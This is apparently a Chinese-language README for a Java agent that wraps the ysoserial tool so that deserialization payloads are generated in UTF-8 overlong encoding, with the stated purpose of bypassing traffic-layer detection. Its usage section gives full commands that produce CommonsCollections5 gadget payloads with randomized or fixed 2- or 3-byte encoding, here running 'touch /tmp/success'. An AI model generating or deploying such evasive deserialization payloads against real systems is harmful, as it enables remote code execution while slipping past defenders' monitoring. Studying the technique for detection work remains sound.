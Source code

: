 # utf8 overlong agent

使用 agent 替换`writeUTF`和`writeUTFBody`函数，从而在序列化时生成utf8 overlong数据，绕过流量层检测。



# 用法

在生成反序列化payload工具启动时添加 javaagent 参数即可

```bash
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```



![image-20240423164153836](./assets/image-20240423164153836.png)



可以使用base64编码一下，然后拷贝出来使用

![image-20240423164533367](./assets/image-20240423164533367.png)



默认采用随机混合2、3字节的utf8 overlong编码，每次生成的payload都不一样

![image-20240423164808031](./assets/image-20240423164808031.png)



若想固定使用2或3字节utf8 overlong，指定agent参数即可：

```bash
# 2 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=2 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"

# 3 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=3 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```





# 参考

https://en.wikipedia.org/wiki/UTF-8

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

https://github.com/Whoopsunix/utf-8-overlong-encoding

https://t.zsxq.com/ToFaL

https://t.zsxq.com/Yg2cc
